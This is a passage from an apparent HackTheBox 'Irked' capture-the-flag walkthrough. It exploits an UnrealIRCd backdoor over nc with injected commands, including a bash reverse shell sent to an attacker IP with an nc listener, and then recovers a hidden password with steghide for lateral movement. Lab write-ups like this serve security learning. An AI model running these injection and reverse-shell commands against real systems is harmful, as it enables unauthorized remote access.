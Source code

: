## User
Once we learned about the vulnerability, let's test if this effectively works on the system:
```
[root@kali Irked ]$ echo "AB; ping -c1 10.10.14.18" | nc 10.10.10.117 8067
:irked.htb NOTICE AUTH :*** Looking up your hostname...
:irked.htb NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
:irked.htb 451 AB; :You have not registered
```
While on our machine launch a tcpdump on the vpn interface:
```
[root@kali exploits ]$ tcpdump -ettti tun0 icmp and not udp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
 00:00:00.000000 ip: irked.htb > 10.10.14.18: ICMP echo request, id 1405, seq 1, length 64
 00:00:00.000032 ip: 10.10.14.18 > irked.htb: ICMP echo reply, id 1405, seq 1, length 64
```
As we can see we recived a ping request message from irked.htb, so this means that the backdoor is working and it's executing commands.  
So now, let's try to get a shell:  
```
[root@kali Irked ]$ echo "AB; bash -c 'bash -i >& /dev/tcp/10.10.14.18/4444 0>&1'" | nc 10.10.10.117 8067
:irked.htb NOTICE AUTH :*** Looking up your hostname...
:irked.htb NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
```
And now we get a shell as irked:
```
root@kali:~/Documents/HTB/Boxes/Irked/exploits# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.18] from (UNKNOWN) [10.10.10.117] 56955
bash: cannot set terminal process group (633): Inappropriate ioctl for device
bash: no job control in this shell
ircd@irked:~/Unreal3.2$
```
If we navigate to home directory, we can see that there is no user flag inside ircd directory, but instead there is another user called djmardov.  
Obviously we cannot read the flag user.txt, but while enumerating permission, something intresting pop up: a .backup file inside the Documents directory:
```
ircd@irked:/home/djmardov$ ls -ltra *
[... SNIP ...]

Documents:
total 16
-rw-------  1 djmardov djmardov   33 May 15  2018 user.txt
drwxr-xr-x  2 djmardov djmardov 4096 May 15  2018 .
-rw-r--r--  1 djmardov djmardov   52 May 16  2018 .backup
drwxr-xr-x 18 djmardov djmardov 4096 Nov  3  2018 ..
```
if we examine the file, we can see:
```
ircd@irked:/home/djmardov/Documents$ cat .backup
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```
Since this refers to a 'steg' backup password, and the only image we've seen so far is the smile face in the webroot, we can try to run steghide and extract the secret from the image using the discovered password (Steghide is a tool commonly used in CTF challenges).  
```
[root@kali Irked ]$ steghide extract -p UPupDOWNdownLRlrBAbaSSss -sf irked.jpg
wrote extracted data to "pass.txt".
[root@kali Irked ]$ cat pass.txt           
Kab6h+m+bbp2J:HG
```  
Now, let's try to ssh as djmardov using the discovered password.  